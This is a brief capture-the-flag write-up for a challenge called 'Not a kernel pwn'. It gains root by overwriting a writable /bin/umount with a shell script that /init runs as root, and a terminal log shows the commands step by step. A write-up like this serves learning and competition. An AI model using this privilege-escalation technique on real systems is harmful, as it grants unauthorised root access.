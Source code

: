 # Not a kernel pwn

* Round: 26 (2022/10)
* Category: Misc
* Points: 100
* Solves: 3

## Description

Kernel pwn without a kernel module?

## Solution

`/bin` is writable and it is easy to see `/init` calls `/bin/umount` after the shell exits, so overwrite `/bin/umount` with `/bin/sh` and `exit` pops a root shell.

```sh
Welcome to Not a Kernel Pwn
/ $ ls
ls
bin      etc      lib      linuxrc  root     sbin     tmp      var
dev      init     lib64    proc     run      sys      usr
/ $ id
id
uid=1000 gid=1000 groups=1000
/ $ rm /bin/umount
rm /bin/umount
/ $ echo /bin/sh > /bin/umount
echo /bin/sh > /bin/umount
/ $ chmod +x /bin/umount
chmod +x /bin/umount
/ $ exit
exit
/bin/sh: can't access tty; job control turned off
/ # id
id
uid=0(root) gid=0(root)
/ # cat /root/flag.txt
cat /root/flag.txt
ictf{fake_flag}
/ # ^C
```

The idea of this challenges comes from an unintended solution (by @ptr-yudai) of `qKarachter` challenge from CrewCTF 2022, and this challenge is modified from `welkerme` from CakeCTF 2022 (still by @ptr-yudai).
